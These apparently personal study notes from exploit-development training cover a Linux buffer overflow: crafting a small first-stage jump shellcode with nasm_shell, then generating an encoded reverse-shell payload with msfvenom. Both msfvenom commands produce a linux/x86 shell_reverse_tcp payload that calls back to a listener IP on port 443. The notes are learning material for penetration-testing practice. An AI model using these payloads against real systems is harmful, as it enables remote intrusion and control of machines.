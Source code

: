# Linux Buffer Overflows

Early stages of replicating crash and controlling EIP identical to Windows training.

While locating space for shellcode the example showed that we only had one or two bytes for the payload. As a result we need to try and jump past another location in what is known as a first stage shellcode. 

In the example we need to obtain opcodes to increase the EAX by 12 bytes to jump over a string and into our real payload:

```bash
sf-nasm_shell                        
nasm > add eax,12
00000000  83C00C            add eax,byte +0xc
nasm > jmp eax
00000000  FFE0              jmp eax
nasm > 
```

The instructions '\x83\xc0\x0c\xff\xe0` take up only 5 bytes of memory.

`msfvenom` payload is now for Linux:  
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.125 LPORT=443 -f raw –e x86/shikata_ga_nai -b "\x0a\x0d\x20" > exploit.txt`

OR with just a couple of badchars from the example, neat way of putting out the raw code though:  

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py -v shellcode`
